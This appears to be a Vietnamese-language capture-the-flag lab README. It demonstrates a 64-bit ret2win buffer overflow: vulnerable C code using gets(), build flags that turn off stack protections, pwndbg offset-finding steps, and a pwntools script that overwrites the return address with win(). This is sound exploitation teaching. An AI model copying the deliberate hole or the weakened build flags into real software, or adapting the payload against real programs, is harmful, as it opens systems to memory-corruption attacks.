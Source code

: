 # ret2win_chall_demo_file

## ret2win.c
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ret2win_64bit_success}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
    gets(buffer); // Classic buffer overflow
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}


## Cài đặt công cụ biên dịch
* sudo apt update
* sudo apt install gcc gcc-multilib -y

## Biên dịch binary
### 32-bit (chall)
* gcc -m32 -fno-stack-protector -no-pie -z execstack ret2win.c -o chall
### 64-bit (chall64)
* gcc -fno-stack-protector -no-pie -z execstack ret2win.c -o chall64


## Cấp quyền thực thi
* chmod +x chall chall64


## Kiểm tra bảo mật
* pip install pwntools    # cài pwntools nếu chưa có

* checksec chall
* checksec chall64


## Tạo pattern
* pwndbg> cyclic <length>


## Khi chương trình crash, kiểm tra giá trị EIP/RIP:
* info registers eip  # 32-bit
* info registers rip  # 64-bit


## Tìm offset từ giá trị EIP/RIP:
* cyclic -l <giá_trị_eip/rip>


## Tìm địa chỉ hàm win
* p & win


## Viết script (solve1.py)
from pwn import *

p = process('./chall_ret2win')

offset = 40                    #Độ dài offset
win_addr = 0x401156            #Địa chỉ hàm win

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(win_addr)       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()


## Chạy script
* python3 solve1.py
